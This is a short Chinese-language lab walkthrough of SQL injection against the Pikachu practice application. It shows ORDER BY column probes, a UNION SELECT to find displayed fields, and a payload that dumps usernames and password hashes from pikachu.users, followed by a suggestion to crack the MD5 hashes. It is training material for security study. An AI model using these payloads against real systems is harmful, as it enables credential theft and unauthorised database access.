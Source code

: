 

查看字段数，输入

```plain
XMTX' order by 2--   成功 XMTX' order by 3--   报错
```



说明有两个字段

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882448638-236541a2-57a6-47b4-b18a-a5ea7e5978a7.png)



查看回显字段，输入

```plain
XMTX') union select 1,2--
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882454249-51af787d-9a34-444a-97a9-77e660871b5b.png)



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
XMTX' union select 1,database(),group_concat(concat_ws('-',username,password)) from pikachu.users --
```



将md5的值进行解密即可得到密码

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882464037-001a5099-eab9-4e6e-8470-a5176e651ab6.png)
